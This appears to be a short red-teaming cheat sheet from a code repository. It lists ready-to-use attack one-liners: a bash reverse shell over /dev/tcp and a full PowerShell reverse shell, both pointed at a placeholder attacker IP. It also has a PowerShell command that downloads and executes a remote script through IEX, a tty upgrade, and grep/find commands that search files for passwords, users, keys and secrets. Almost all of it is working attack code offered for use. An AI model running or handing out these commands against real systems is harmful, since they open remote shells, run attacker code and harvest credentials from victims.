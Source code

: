 # useful 4red teaming

simplest reverse shell 
> bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'

simple powershell reverse shell
> $client = New-Object System.Net.Sockets.TCPClient("<my_ip>",<my_port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

or save it as *.ps1* file and use
> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<my_ip>:<my_port>/mypowershell.ps1')"

upgrade to usable tty
> SHELL=/bin/bash script -q /dev/null

find all files with "pass"
> grep -i -R "pass" 2>/dev/null 

> egrep -i -R "pass|user" 2>/dev/null

_find_ interesting
> find ./ -type f -exec egrep -i "user|pass|key|secret" {} \; -exec echo "^^^^**** {} **** ^^^^" \;

